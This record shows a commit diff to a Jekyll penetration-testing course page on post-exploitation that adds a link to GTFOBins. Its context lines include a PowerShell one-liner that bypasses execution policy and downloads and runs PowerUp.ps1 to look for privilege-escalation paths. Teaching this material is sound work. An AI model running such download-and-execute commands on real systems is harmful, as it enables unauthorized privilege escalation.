

Before and after one commit to vitalyford/vitalyford.github.io, a Jekyll site: the page built from pentest/06-Post-Exploitation.html, in a window 1280 px wide and 900 px high, scrolled down 4661 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries.

Commit message:
Add GTFOBins to post exploit

```diff
--- a/pentest/06-Post-Exploitation.html
+++ b/pentest/06-Post-Exploitation.html
@@ -152,6 +152,7 @@
     and then run Invoke-AllChecks to identify possible ways of escalating privileges:</p>
 <pre><code class="language-powershell">powershell -Version 2 -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString(&apos;https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc/PowerUp.ps1&apos;); Invoke-AllChecks</code></pre>
 <p>Additionally, privelege escalation modules are available in Metasploit as you can see <a href="https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/">here</a>.</p>
+<p>Also, <a href="https://gtfobins.github.io/">GTFOBins</a> allow you to find binaries that can be exploited by an attacker to bypass local security restriction.</p>
 <h3 id="escalate-privileges-on-linux">Escalate Privileges on Linux</h3>
 <p>Similarly to Windows, there are techniques that allow you to escalate privileges on Linux. Most
     commonly, you are going to look for files that are world-writable, SUID/GUID files owned by root, and
```
